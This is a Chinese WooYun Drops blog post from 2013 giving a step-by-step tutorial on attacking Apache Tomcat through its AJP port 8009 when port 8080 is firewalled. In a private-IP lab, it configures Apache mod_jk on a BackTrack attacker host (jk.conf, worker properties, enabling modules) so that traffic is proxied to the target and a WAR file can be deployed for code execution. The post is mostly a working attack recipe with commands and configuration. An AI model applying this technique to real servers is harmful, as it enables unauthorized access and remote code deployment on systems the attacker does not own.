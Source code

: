 # Tomcat 的 8009 端口 AJP 的利用

2013/11/15 12:28 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

Tomcat 在安装的时候会有下面的界面，我们通常部署 war，用的最多的是默认的 8080 端口。

可是当 8080 端口被防火墙封闭的时候，是否还有办法利用呢？

答案是可以的，可以通过 AJP 的 8009 端口，下面是 step by step。

![2013111512070655523_png.jpg](img/img1_u141_jpg.jpg)

下面是实验环境：

```
192.168.0.102   装有 Tomcat 7 的虚拟主机，防火墙封闭 8080 端口 
192.168.0.103   装有 BT5 系统的渗透主机 
```

首先 nmap 扫描，发现 8009 端口开放

![2013111512075970614_png.jpg](img/img2_u120_jpg.jpg)

BT5 默认 apache2 是安装的，我们仅需要安装 mod-jk

```
root@mickey:~# apt-get install libapache2-mod-jk 

```

jk.conf 的配置文件如下：

```
root@mickey:/etc/apache2/mods-available# cat jk.conf  

# Update this path to match your conf directory location 

JkWorkersFile /etc/apache2/jk_workers.properties 

# Where to put jk logs 

# Update this path to match your logs directory location 

JkLogFile /var/log/apache2/mod_jk.log 

# Set the jk log level [debug/error/info] 

JkLogLevel info 

# Select the log format 

JkLogStampFormat "[%a %b %d %H:%M:%S %Y]" 

# JkOptions indicate to send SSL KEY SIZE, 

JkOptions +ForwardKeySize +ForwardURICompat -ForwardDirectories 

# JkRequestLogFormat set the request format 

JkRequestLogFormat "%w %V %T" 

# Shm log file 

JkShmFile /var/log/apache2/jk-runtime-status

```

jk.conf 软连接到/etc/apache2/mods-enabled/目录

```
ln -s /etc/apache2/mods-available/jk.conf /etc/apache2/mods-enabled/jk.conf

```

配置 jk_workers.properties

```
root@mickey:/etc/apache2# cat jk_workers.properties  

worker.list=ajp13 

# Set properties for worker named ajp13 to use ajp13 protocol, 

# and run on port 8009 

worker.ajp13.type=ajp13 

worker.ajp13.host=192.168.0.102       <\---|这里是要目标主机的 IP 地址 

worker.ajp13.port=8009 

worker.ajp13.lbfactor=50 

worker.ajp13.cachesize=10 

worker.ajp13.cache_timeout=600 

worker.ajp13.socket_keepalive=1 

worker.ajp13.socket_timeout=300 

```

默认站点的配置

![2013111512095536811_png.jpg](img/img3_u106_jpg.jpg)

重启 apache

```
sudo a2enmod proxy_ajp 

sudo a2enmod proxy_http 

sudo /etc/init.d/apache2 restart 

```

现在 apache 的 mod_jk 模块就配置好了，访问 192.168.0.103 的 80 端口，就被重定向到 192.168.0.102 的 8009 端口了，然后就可以部署 war 了。

![2013111512103969324_png.jpg](img/img4_u86_jpg.jpg)

对渗透有兴趣的朋友，加我多交流 ：）

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [探秘伪基站产业链](http://drops.wooyun.org/tips/771)
*   [GSM Hackeing 之 SMS Sniffer 学习](http://drops.wooyun.org/tips/723)
*   [如何用意念获取附近美女的手机号码](http://drops.wooyun.org/tips/573)
*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)
*   [显示每个 CPU 的 IDT 信息](http://drops.wooyun.org/tips/4854)
*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
